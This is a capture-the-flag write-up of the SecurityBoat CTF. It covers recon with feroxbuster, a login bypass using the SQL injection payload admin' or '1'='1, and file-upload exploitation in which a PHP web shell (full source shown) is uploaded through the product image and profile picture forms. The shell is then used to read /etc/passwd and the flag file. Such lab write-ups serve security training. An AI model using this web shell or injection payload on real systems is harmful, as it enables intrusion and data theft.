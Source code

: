 SecurityBoat CTF WriteUp - Jan 2024
Link for CTF: http://ctf.securityboat.net/
Recon:
Without Login :
I tried to access the robot.txt and robots.txt but there is not file to found.

2. I tried brute forcing the URL with feroxbuster.
feroxbuster -u http://ctf.securityboat.net/
Three folders that got my interest were admin, JS, assets.
With Login:
Register to the site with admin.

2. Then I login with admin11 and 123456789 as password.
3. After that it redirect to http://ctf.securityboat.net/admin/dashboard.html.
4. We can also bypass the login panel using SQLi Injection. To get admin dashboard.
Payload used for SQLi
admin' or '1'='1
5. Got Access to admin panel
Exploitation:
I checked all options in admin dash board I got only some parameter like description and name that are vulnerable to XSS attacks and Image to upload for products.

2. For Normal user I got only profile pic to upload the image.
3. There are 2 Options for us to upload products image in admin panel and profile pic in Normal user one.
To get the Flag there are two ways with:
Normal User(File Upload via Profile Pic)
Admin User(File Upload via edit option in products)

So these two are only option for us to get flag.
Admin User:
I uploaded PHP reverse shell in the Image option in products

Admin|Edit-Products
Edit descriptionctf.securityboat.net
2. Find that this PHP reverse shell got uploaded into "products" directory.
http://ctf.securityboat.net/assets/products/payload.php
3. Lets Enumerate the system
http://ctf.securityboat.net/assets/products/payload.php?cmd=pwd
http://ctf.securityboat.net/assets/products/payload.php?cmd=cat%20/etc/passwd
http://ctf.securityboat.net/assets/products/payload.php?cmd=cd%20/home;ls
http://ctf.securityboat.net/assets/products/payload.php?cmd=cat%20/home/flag.txt
Flag is
{Unrestr!cted_F!le_Upload_!s_Fun}
Normal User:
I uploaded PHP reverse shell in profile pic.

http://ctf.securityboat.net/profile.html
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
2. Find that this PHP reverse shell got uploaded into assets/profPic/
http://ctf.securityboat.net/assets/profPic/payload.php
3. Now lets find the flag now.
4. using the above shell let's enumerate the system.
http://ctf.securityboat.net/assets/profPic/payload.php?cmd=cat%20/etc/passwd
http://ctf.securityboat.net/assets/profPic/payload.php?cmd=cd%20/home;ls
http://ctf.securityboat.net/assets/profPic/payload.php?cmd=cat%20/home/flag.txt
Flag is
{Unrestr!cted_F!le_Upload_!s_Fun}
